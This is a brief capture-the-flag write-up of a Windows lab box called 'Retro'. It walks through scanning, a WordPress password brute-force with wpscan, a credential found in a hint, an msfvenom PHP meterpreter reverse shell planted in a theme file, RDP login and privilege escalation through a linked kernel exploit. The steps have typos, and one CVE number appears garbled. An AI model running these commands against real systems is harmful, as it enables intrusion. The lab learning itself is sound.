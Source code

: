 # Retro
New high score!

Can you time travel? If not, you might want to think about the next best thing.

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.


# Retro
  ``nmap -sV -A ip``



```dirsaerch -u 10.10.196.137 -w /usr/share/wordlists/dirb/big.txt```


Found /retro web directory and web site was built with wordpress.

Read all the pages and Tried the `` wade`` username for `wp-login.php` and that was correct username.

Tried to brute force password 

```wpscan --url http://10.10.213.239/retro/wp-login.php --passwords ./hacking/rockyou.txt --usernames wade```

But don't get any valid password event after a long time.


Again gone through all the pages and found some hint 
![alt text](./hint.png)

Tried using ``parzival`` and logged in succesfuly through ``wp-login.php``. Edited the file in themes section with php reverse shell .

```msfvenom -p php/meterpreter/reverse_tcp LPORT=1234 LHOST=10.10.10.10 -f raw -o reverse_shell.php```

And kept a listener :
```msfconsole ```

```payload php/meterpreter/reverse_tcp```

Successfully gained a shell but we don't have permission to go into some directory from here.

## I tried it with same username and password for remote desktop because an rdp server was also running. Logged in succesfully .

Found the usr.txt

There was some hint for
## Privilege Escalation 

I found a ``hhupd.exe`` in ``recycle bin`` googled it and found cve-2019-1988 related to this exe file.
But from here i didn't get the NT/Authority.

So i searched for kernal exploitation. Found CVE-2017-0213
```https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213```

Executed the x64 exe file and got the root!!!
